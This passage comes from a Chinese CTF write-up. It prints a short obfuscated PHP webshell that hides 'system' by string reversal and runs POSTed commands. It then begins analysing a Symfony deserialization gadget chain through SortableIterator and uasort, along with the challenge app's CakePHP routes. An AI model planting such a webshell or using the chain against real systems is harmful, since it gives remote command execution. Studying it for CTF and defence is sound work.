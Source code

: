 马

```php
&lt;?php
$p = &#34;metsys&#34;;
$pp = strrev($p);
$pp($_POST[&#39;cmd&#39;]);
?&gt;
```

![image-20250125160123692](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/67949a54a8b96.png)



### SU_POP

#### 0x00 参考资料

Symfony 反序列化链分析

参考文章：https://forum.butian.net/share/2411

在 `vendor/symfony/finder/Iterator/SortableIterator.php` 中定义了 `SortableIterator` 类，实现了 `IteratorAggregate` 接口

![image-20250125162940319](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794a0f577b69.png)

`__construct` 接受一个迭代器 `$iterator` ，整型或回调函数 `$sort` ，以及布尔类型 `$reverseOrder`

 如果传入一个 callable 的 `$sort` ，它将会被赋值给 `$this-&gt;sort` 

![image-20250125163327644](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794a1d864118.png)

那么在调用 `getIterator()` 时，对于上述的 `$sort` ，由于不等于 1 或 -1 ，将会调用 `uasort()`

&gt; uasort([array](https://www.php.net/manual/en/language.types.array.php) `&amp;$array`, [callable](https://www.php.net/manual/en/language.types.callable.php) `$callback`): true

`uasort()` 有两个参数，第一个参数是 array ，第二个参数是一个函数，而这两个参数在构造时可指定，即参数可控，那么可以传入 `call_user_func` 方法，实现任意命令执行

那么下面构造链子的思路是寻找类中 `__toString()` ，`__destruct()` ，`__wakeup()` 中直接或间接使用 `foreach` 遍历成员变量的部分

#### 0x01 代码审计

拿到源码，先找一下利用点，看路由

```php
&lt;?php
use Cake\Routing\Route\DashedRoute;
use Cake\Routing\RouteBuilder;

return function (RouteBuilder $routes): void {
    $routes-&gt;setRouteClass(DashedRoute::class);
    $routes-&gt;scope(&#39;/&#39;, function (RouteBuilder $builder): void {
        $builder-&gt;connect(&#39;/&#39;, [&#39;controller&#39; =&gt; &#39;Pages&#39;, &#39;action&#39; =&gt; &#39;display&#39;, &#39;home&#39;]);
        $builder-&gt;connect(&#39;/pages/*&#39;, &#39;Pages::display&#39;);
        $builder-&gt;get(&#39;/ser&#39;, [&#39;controller&#39; =&gt; &#39;Pages&#39;, &#39;action&#39; =&gt; &#39;handleSer&#39;]);
        $builder-&gt;fallbacks();
    });
};
```
